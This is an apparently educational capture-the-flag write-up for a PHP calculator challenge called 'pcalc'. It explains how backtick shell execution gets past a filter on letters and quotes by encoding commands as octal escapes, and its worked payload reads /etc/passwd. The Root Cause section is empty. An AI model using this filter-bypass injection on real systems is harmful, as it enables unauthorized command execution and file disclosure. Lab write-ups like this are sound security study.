


# pcalc

> ## Medium

### 1. Overview

Let'go to through the webpage, core features of it is calculation! I try for `a` or `'` or `"` and get the same result, so I think server have a filter, which don't receive alphabet charactor, `"`, `'`, and some charactor I haved not tested!


Reading the source code to understand filter! 



I focus on the filter, it doesn't filter the **`` ` ``** charactor! In php, it can use to call the shell command! For example **ls -la** between **\`** is
``
`ls -la`
``!

### 2. Enumeration

But the filter doesn't recieve alphabet charator, so you can't represent command by string, I think about hex representation (`A` by `\x41`). But `x` is alphabet charator, I think about octal representation, it only has number and `\`, for example `\101` for `A`, you can try by printf in linux `printf '\101'`. So the core vector is write payload as octal representation for bypass filter and read flag file! 

### 3. Exploitation

Now build the payload, this is `` `cat /etc/passwd` ``, you can use `od -b` for extract string to octal number! 

```shell
printf '`cat /etc/passwd`' | od -b
0000000   140 143 141 164 040 057 145 164 143 057 160 141 163 163 167 144
0000020   140
0000021
printf '140 143 141 164 040 057 145 164 143 057 160 141 163 163 167 144 140' | tr ' ' '\'
140\143\141\164\040\057\145\164\143\057\160\141\163\163\167\144\140
printf '`\143\141\164\040\057\145\164\143\057\160\141\163\163\167\144`'
`cat /etc/passwd`
```

Now testing my payload! 



Boom!!! It works!! Now, let's go to get you flag!

### 4. Root Cause


